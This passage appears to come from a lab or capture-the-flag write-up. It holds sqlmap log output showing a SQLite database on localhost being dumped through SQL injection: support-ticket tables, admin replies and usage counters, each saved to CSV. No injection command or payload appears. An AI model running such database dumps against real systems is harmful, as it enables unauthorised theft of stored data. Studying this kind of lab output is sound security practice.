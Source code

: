 ```bash
[18:22:32] [INFO] table 'SQLite_masterdb.sqlite_sequence' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/sqlite_sequence.csv'
[18:22:32] [INFO] fetching columns for table 'reports'
[18:22:32] [INFO] fetching entries for table 'reports'
Database: <current>
Table: reports
[2 entries]
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| id | subject                   | description                                                                                                         | reported_date | reporter_name |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| 1  | Accept JPEG files         | Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?           | 13/08/2022    | Jason         |
| 2  | Converting non-ascii text | When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this. | 22/09/2022    | Mike          |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+

[18:22:32] [INFO] table 'SQLite_masterdb.reports' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/reports.csv'
[18:22:32] [INFO] fetching columns for table 'answers'
[18:22:32] [INFO] fetching entries for table 'answers'
Database: <current>
Table: answers
[2 entries]
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+

[18:22:32] [INFO] table 'SQLite_masterdb.answers' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/answers.csv'
[18:22:32] [INFO] fetching columns for table 'info'
[18:22:33] [INFO] fetching entries for table 'info'
Database: <current>
Table: info
[2 entries]
+----+-------------+-------+
| id | key         | value |
+----+-------------+-------+
| 1  | downloads   | 1000  |
| 2  | convertions | 2289  |
+----+-------------+-------+

[18:22:33] [INFO] table 'SQLite_masterdb.info' dumped to CSV file '/home/nickvd/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/info.csv'
```
